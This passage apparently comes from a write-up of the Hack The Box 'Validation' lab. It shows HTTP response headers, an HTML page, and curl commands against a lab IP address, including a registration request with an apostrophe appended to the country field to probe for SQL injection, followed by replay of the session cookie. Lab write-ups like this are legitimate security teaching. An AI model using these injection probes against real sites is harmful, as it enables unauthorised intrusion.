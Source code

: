 ```text
< Server: Apache/2.4.48 (Debian)
< X-Powered-By: PHP/7.4.23
< Vary: Accept-Encoding
< Content-Length: 695
< Content-Type: text/html; charset=UTF-8
```

We get this html response back:
```html
<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">
<script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>
<script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<!------ Include the above in your HEAD tag ---------->

<div class="container"><h1 class="text-center m-5">Join the UHC - September Qualifiers</h1></div>
    <section class="bg-dark text-center p-5 mt-4">
        <div class="container p-5">
            <h1 class="text-white">Welcome pencer1</h1>
            <h3 class="text-white">Other Players In Belgium</h3>
            <li class='text-white'>pencer1</li>
        </div>
    </section>
</div>
```

After some playing around I check for SQL injection vulnerability by putting an apostrophe at the end of the country parameter:

```text
┌──(root💀kali)-[~/htb/validation]
└─# curl -v -d "username=pencer3&country=Belgium'" http://10.10.11.116                     
<SNIP>
```

Note that each time I try a new query I'm using a new username. Take the cookie from the query and send it:

```text
┌──(root💀kali)-[~/htb/validation]
└─# curl -v --cookie "user=503b93ad315f7d89d58f5a4040ddc6f9" http://10.10.11.116/account.php
*   Trying 10.10.11.116:80...
* Connected to 10.10.11.116 (10.10.11.116) port 80 (#0)
> GET /account.php HTTP/1.1
> Host: 10.10.11.116
> User-Agent: curl/7.74.0
> Accept: */*
> Cookie: user=503b93ad315f7d89d58f5a4040ddc6f9
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sat, 18 Sep 2021 10:45:21 GMT
< Server: Apache/2.4.48 (Debian)
< X-Powered-By: PHP/7.4.23
< Vary: Accept-Encoding
< Content-Length: 849
< Content-Type: text/html; charset=UTF-8
```
